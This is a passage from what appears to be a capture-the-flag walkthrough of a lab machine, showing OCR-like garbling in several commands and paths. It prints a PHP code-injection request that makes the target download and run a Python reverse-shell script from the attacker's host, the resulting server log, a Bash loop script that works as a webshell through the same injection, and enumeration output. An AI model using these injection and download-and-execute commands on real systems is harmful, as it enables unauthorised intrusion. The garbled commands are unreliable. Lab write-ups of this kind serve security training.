 I could get the file with `wget` and then execute it:



    root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode .md=<?php system("wget 10.10.14.24/rev.py -O /dev/shm/r.py; python /dev/shm/r.py"); ?>' --cookie adminpowa=noonecares



I saw the request at my server:



    10.10.10.27 - - [23/Aug/2020 07:39:03] "GET /rev.py HTTP/1.1" 200 -



And then a connection at `nc`, but then it immediately died.

### Script Dumb Shell

Giving up on a reverse shell for now, I wrote a quick silly Bash script
to allow me to input commands and get the output:



    #!/bin/bash

    while :
    do
        echo -n "calamity> "
        read cmd
        if [ "$cmd" = "exit" ]; then exit; fi
        curl -s -G http://10.10.10.27/admin.php --data-urlencode .md=<?php system(\"$cmd\"); ?>" --cookie adminpowa=noonecares | sed -e '1,/<\/body><\/   .md>/ d'
    done



It will print a prompt and then read into the variable `$cmd`. If `$cmd`
is "exit", it quits. Then it will `curl` passing in the command, and
loop.

This shell won't keep state or allow me to change directories, but it
works well enough to do some enumeration:



    root@kali# rlwrap ./webshell.sh 
    calamity> id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    calamity> pwd 
    /var/www.md



I'll run with `rlwrap` to get up arrow key for previous command.

### Enumeration

There's one user with a home directory on the box:



    calamity> ls -la /home
    total 12
    drwxr-xr-x  3 root   root   4096 Jun 27  2017 .
    drwxr-xr-x 22 root   root   4096 Jun 29  2017 ..
    drwxr-xr-x  7 xalvas xalvas 4096 Jun 29  2017 xalvas

